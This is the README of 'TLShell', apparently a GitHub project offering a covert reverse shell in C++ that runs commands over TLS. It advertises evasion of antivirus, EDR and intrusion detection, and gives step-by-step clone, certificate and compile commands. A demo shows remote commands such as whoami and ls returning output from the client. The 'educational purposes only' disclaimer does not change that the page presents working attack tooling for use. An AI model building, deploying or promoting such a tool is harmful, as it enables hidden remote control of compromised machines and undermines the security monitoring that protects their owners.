

# TLShell
## A covert reverse shell using TLS
<!-- DESCRIPTION -->
## Description:

A TLS-encrypted reverse shell provides significant security and privacy benefits for communication between an attacker and a compromised system. Traditional reverse shells send data in plaintext, making them vulnerable to detection or interception by network monitoring tools, intrusion detection systems (IDS), or firewalls. With TLS encryption, however, the communication between the attacker and the target machine is encrypted, ensuring confidentiality and reducing the risk of detection by security tools that inspect unencrypted traffic.

## Warning: 

This tool is made for educational purposes only. The developer is not responsible for any misuse or unintended consequences arising from the use of this tool.

<!-- FEATURES -->
## Features:

- Undetectable by most AV/EDR solutions

- Written in C++

- Encrypted Command and Control

## Technical details:

- TLS 1.3 for encryption

**Tip: Replace hardcoded certificate in client code with your own**

<!-- INSTALLATION -->
## Installation:
    $ sudo apt update
    $ sudo apt install openssl
    $ git clone https://github.com/umutcamliyurt/TLShell.git
    $ cd TLShell/
    $ openssl req -x509 -newkey rsa:2048 -keyout server.key -out server.crt -days 36500 -nodes
    $ g++ server.cpp -o server -lssl -lcrypto
    $ g++ client.cpp -o client -lssl -lcrypto


## Demo:

### Server:
```
nemesis@localhost:~/Projects/TLShell$ ./server 8080
Server listening on port 8080...
Client connected!
Enter command to send to client (type 'exit' to quit): whoami
Client output: nemesis

Enter command to send to client (type 'exit' to quit): ls
Client output: client
client.cpp
image.png
LICENSE
README.md
server
server.cpp
server.crt
server.key

Enter command to send to client (type 'exit' to quit): 
```

### Client:
```
nemesis@localhost:~/Projects/TLShell$ ./client 127.0.0.1 8080
Connected to server 127.0.0.1:8080!
```

## Results:



<!-- LICENSE -->
## License

Distributed under the MIT License. See `LICENSE` for more information.
